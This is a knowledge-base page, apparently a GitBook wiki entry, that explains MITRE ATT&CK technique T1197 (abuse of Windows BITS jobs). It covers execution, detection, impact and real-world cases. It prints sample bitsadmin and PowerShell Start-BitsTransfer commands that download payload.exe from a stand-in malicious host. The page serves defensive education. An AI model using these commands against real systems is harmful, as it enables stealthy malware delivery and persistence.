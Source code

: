 ```yaml
---
description: BITS Jobs [T1197]
icon: lock
---
```


# BITS Jobs

## Information

- Name: BITS Jobs
- ID: T1197
- Tactics: [TA0005](../TA0005/TA0005.md), [TA0003](../TA0003/TA0003.md)

## Introduction

BITS Jobs, or Background Intelligent Transfer Service jobs, is a technique categorized under the MITRE ATT\&CK framework (Technique ID: T1197). BITS is a legitimate Microsoft Windows service designed to facilitate asynchronous, prioritized, and throttled file transfers between machines over HTTP/HTTPS. Attackers exploit this built-in Windows component to stealthily download, execute, or exfiltrate data, leveraging its trusted status to evade detection and blend into normal network activity.

## Deep Dive Into Technique

Background Intelligent Transfer Service (BITS) is a native Windows component utilized primarily by Windows Update and other legitimate applications for transferring files in the background, ensuring minimal disruption to user experience. Attackers abuse BITS due to its native presence, trusted behavior, and ability to bypass certain firewall rules and network security measures.

Technical details and execution methods include:

- **BITSAdmin Tool**: Attackers commonly use the built-in command-line utility `bitsadmin.exe` to create and manage BITS jobs.

  - Example command to create a job:

    ```
    bitsadmin /create maliciousJob
    bitsadmin /addfile maliciousJob http://malicious.domain/payload.exe C:\Windows\Temp\payload.exe
    bitsadmin /resume maliciousJob
    ```

  - Execution after download:

    ```
    bitsadmin /complete maliciousJob
    ```

- **PowerShell Integration**: Attackers may leverage PowerShell cmdlets to manage BITS jobs silently:

  ```powershell
  Start-BitsTransfer -Source "http://malicious.domain/payload.exe" -Destination "C:\Temp\payload.exe"
  ```

- **Persistence and Scheduled Tasks**: Attackers can use BITS jobs in combination with scheduled tasks to achieve persistence, ensuring malicious payloads are regularly downloaded and executed.
- **Data Exfiltration**: BITS can also facilitate data exfiltration by uploading files to attacker-controlled servers over HTTP or HTTPS, blending malicious traffic with legitimate network activities.

## When this Technique is Usually Used

BITS Jobs are commonly utilized by attackers across various stages and scenarios, including:

- **Initial Access and Execution**:
  - Delivering malicious payloads onto compromised hosts, bypassing traditional download restrictions.
  - Executing malware payloads directly after download.
- **Persistence and Scheduled Execution**:
  - Establishing recurring BITS jobs to maintain persistence and regularly update malicious payloads.
- **Defense Evasion**:
  - Using legitimate Windows services to evade detection by endpoint protection software and firewalls.
  - Leveraging trusted process execution (signed Microsoft binaries) to bypass application whitelisting.
- **Command and Control (C2) Communications**:
  - Utilizing BITS to periodically download instructions or payloads from attacker-controlled servers.
- **Data Exfiltration**:
  - Uploading sensitive data to external servers via BITS to conceal data exfiltration within legitimate traffic patterns.

## How this Technique is Usually Detected

Detection of malicious BITS Jobs involves monitoring system events, network traffic, and specific indicators of compromise (IoCs):

- **Event Logs and Process Monitoring**:
  - Monitor Windows Event Logs (Application/System logs) for suspicious BITS job creations and completions.
  - Track usage of `bitsadmin.exe` and PowerShell cmdlets (`Start-BitsTransfer`) with unusual parameters or sources.
- **Endpoint Detection and Response (EDR)**:
  - Use EDR solutions to detect anomalous behaviors, such as unexpected file downloads initiated by BITS.
  - Detect unusual child processes spawned by `svchost.exe` or `bitsadmin.exe`.
- **Network Traffic Analysis**:
  - Inspect outbound HTTP/HTTPS traffic originating from BITS processes (`svchost.exe`) to unusual or unknown external domains or IP addresses.
  - Detect repeated or periodic requests to suspicious URLs.
- **Behavioral Indicators and IoCs**:
  - Unusual BITS job names (e.g., random or suspicious naming conventions).
  - Downloads or uploads of executables or scripts from/to suspicious domains.
  - Unexpected binaries or scripts appearing in temporary directories (`C:\Windows\Temp`, `%APPDATA%`, `%TEMP%`).
- **Tools and Techniques for Detection**:
  - Sysmon (System Monitor) to log process creation, file creation, and network connections.
  - Windows Defender ATP, CrowdStrike Falcon, Carbon Black, or similar EDR platforms to detect anomalous activity.
  - Network IDS/IPS solutions to identify suspicious HTTP/HTTPS traffic patterns associated with BITS.

## Why it is Important to Detect This Technique

Early detection of malicious BITS Jobs is critical due to the following potential impacts:

- **Stealthy Malware Delivery and Execution**:
  - Attackers can quietly deliver and execute malware, ransomware, or remote access tools, bypassing traditional antivirus and firewall protections.
- **Persistence and Long-Term Compromise**:
  - Undetected BITS jobs enable attackers to maintain persistent access, conduct long-term espionage, or repeatedly deliver updated malicious payloads.
- **Data Exfiltration Risks**:
  - Attackers may leverage BITS to exfiltrate sensitive data, such as intellectual property, personally identifiable information (PII), or credentials, causing significant financial and reputational damage.
- **Defense Evasion Capability**:
  - Exploiting trusted Windows services allows attackers to evade traditional security controls, making detection challenging without specialized monitoring.
- **Early Stage Detection Advantage**:
  - Identifying malicious BITS activity early in the attack lifecycle can prevent further lateral movement, privilege escalation, or damage within the network environment.

## Examples

Real-world examples of BITS Jobs abuse in cyber-attacks include:

- **APT Groups and Nation-State Actors**:
  - **APT29 (Cozy Bear)**:
    - Utilized BITS jobs to download second-stage payloads and maintain persistence within compromised environments.
    - Leveraged legitimate Windows utilities (`bitsadmin.exe`) to evade detection by endpoint security solutions.
  - **APT41**:
    - Employed BITS to download and execute payloads during targeted attacks against healthcare and technology sectors.
- **Commodity Malware and Ransomware Campaigns**:
  - **Ryuk Ransomware**:
    - Leveraged BITS jobs to download additional malicious payloads onto compromised systems, enabling lateral movement and further compromise.
  - **Emotet Malware**:
    - Utilized BITS to silently retrieve payload updates and modules from attacker-controlled infrastructure, evading network detection.
- **Penetration Testing Tools and Frameworks**:
  - **Metasploit Framework**:
    - Includes modules (`exploit/windows/local/bits_ntlm_token_impersonation`) that leverage BITS jobs for privilege escalation and payload delivery.
  - **Empire Framework**:
    - Offers built-in functionality to leverage BITS for payload delivery and persistence, demonstrating how attackers commonly exploit this legitimate service.

Impacts observed in these real-world scenarios include:

- Successful evasion of antivirus and endpoint protection solutions.
- Persistent long-term compromise of critical infrastructure, government entities, and private sector organizations.
- Large-scale data breaches and significant financial losses resulting from ransomware infections and data exfiltration.
